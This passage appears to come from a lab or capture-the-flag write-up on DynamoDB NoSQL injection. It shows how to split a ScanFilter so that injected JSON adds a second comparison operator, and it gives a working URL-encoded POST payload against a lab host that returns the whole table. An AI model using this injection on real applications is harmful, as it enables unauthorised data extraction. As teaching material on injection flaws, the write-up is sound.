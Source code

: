 - <https://attackdefense.pentesteracademy.com/challengedetailsnoauth?cid=1248>
- <https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac>

It is similar to a MongoDB NoSQL injection. We can inject and extra `ComparisonOperator` at the end of the `ScanFilter` and try to match all items in the table. We can prepare a `ScanFilter` which hopefully returns all items.

First part of the `ScanFilter` (not controlled by us):

```
{"servername": {"ComparisonOperator": "EQ","AttributeValueList": [{"S": "
```

Second part of the `ScanFilter` (controlled by us):

```
test"}],"ComparisonOperator": "NE", "AttributeValueList":[{"S":"nonexsistingelement
```

Third part of the `ScanFilter` (not controlled by us):
```
"}]}}
```

The complete `ScanFilter`:

```json
{
    "servername": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [
            {
                "S": "test"
            }
        ],
        "ComparisonOperator": "NE",
        "AttributeValueList": [
            {
                "S": "nonexsistingelement"
            }
        ]
    }
}
```

Let's send the request:

```
POST /search HTTP/1.1
Host: 10.129.174.22
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJhdXRoIjp0cnVlLCJsb2dnZWRpbiI6dHJ1ZX0.YtWFKQ._hv2nGlm8kUGGrNaihVzV0pNzaE

q=test%22%7D%5D%2C%22ComparisonOperator%22%3A+%22GT%22%2C+%22AttributeValueList%22%3A%5B%7B%22S%22%3A%22nonexsistingelement
```

The response is the complete (?) content of the table!
